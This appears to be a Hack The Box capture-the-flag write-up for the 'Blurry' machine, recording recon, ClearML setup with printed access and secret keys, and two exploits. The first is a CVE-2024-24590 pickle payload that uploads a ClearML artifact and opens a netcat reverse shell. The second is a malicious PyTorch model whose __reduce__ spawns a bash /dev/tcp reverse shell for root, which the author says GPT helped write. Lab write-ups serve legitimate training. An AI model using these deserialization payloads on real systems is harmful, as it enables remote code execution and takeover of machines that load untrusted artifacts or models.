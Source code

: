 # Blurry Machine - Medium

- [+] : Target IP
   >>	10.10.11.19
   
## Recon 

PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

### Port 80 

- [1] : http://app.blurry.htb/
  >>	targetip redirects to app.blurry.htb , blurry.htb not working .
  

- [2] : Clearml 
  >>	login page -> Users : (Chad Jippity , default user , ray flection , Car Melo , e) 

- [3] : clearml-init 
  >>    configuration on clearml 
  >>	initialized clearml and had to add to dns api and file .
  >>	clearml-server ? clearml-task 
		``ìnitialization
		seems like app.blurry.htb doesnt work , I think I have to put localhost instead of api for the web server config 
		
		clearml-init
		ClearML SDK setup process

		Please create new clearml credentials through the settings page in your `clearml-server` web app (e.g. http://localhost:8080//settings/workspace-configuration) 
		Or create a free account at https://app.clear.ml/settings/workspace-configuration

		In settings page, press "Create new credentials", then press "Copy to clipboard".

		Paste copied configuration here:
		api {
		  web_server: http://app.blurry.htb
		  api_server: http://api.blurry.htb
		  files_server: http://files.blurry.htb
		  credentials {
		    "access_key" = "GE0TEHKB4RCDK8R0M2YJ"
		    "secret_key" = "vksNd0Axcp7LWkTWUWA6O3zzeGZWOfWlrT1JezZcTq6HmB2qGO"
		  }
		}
		Detected credentials key="GE0TEHKB4RCDK8R0M2YJ" secret="vksN***"

		ClearML Hosts configuration:
		Web App: http://app.blurry.htb
		API: http://api.blurry.htb
		File Store: http://files.blurry.htb

		Verifying credentials ...
		Credentials verified!

		New configuration stored in /home/parrot/clearml.conf
		ClearML setup completed successfully.
		```
		
  >> App credentials :
		```app.blurry.htb
 		8TL83TDO2YXCQ4789DE4 	Jun 11 2024 15:42 	blurry 	
		43JQWWALPYM4QTJG5T6D 	Feb 17 2024 17:54 	149328d8025b
		```
- [3] :  CVE-2024–24590
  >>	[https://hiddenlayer.com/research/not-so-clear-how-mlops-solutions-can-muddy-the-waters-of-your-supply-chain/]
  		```python
		from clearml import Task
		import pickle, os

		class RunCommand:
		    def __reduce__(self):
			return (os.system, ('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.16.x 1234 >/tmp/f',))

		command = RunCommand()

		task = Task.init(project_name='Black Swan', task_name='pickle_artifact_upload', tags=["review"])
		task.upload_artifact(name='pickle_artifact', artifact_object=command, retries=2, wait_on_upload=True, extension_name=".pkl")
		```
		


## Privesc


- [+] : sudo -l
   >>	sudo /usr/bin/evaluate_model /models/*.pth
   >>   cat /usr/bin/evaluate_model >> GPT cuz user is jippity xD
    
- [+] : privesc way with gpt 
				import torch
				import torch.nn as nn
				import os

				class MaliciousModel(nn.Module):
				    def __init__(self):
					super(MaliciousModel, self).__init__()
					self.fc = nn.Linear(10, 1)  # Modify input and output dimensions as needed

				    def forward(self, x):
					return self.fc(x)

				    def __reduce__(self):
					# Command to establish reverse shell (replace IP and port with your listener's IP and port)
					cmd = "bash -c 'bash -i >& /dev/tcp/10.10.16.4/5555 0>&1'"
					return os.system, (cmd,)

				# Instantiate the model
				malicious_model = MaliciousModel()

				# Save the model using torch.save
				torch.save(malicious_model, 'malicious_model.pth')
				
				

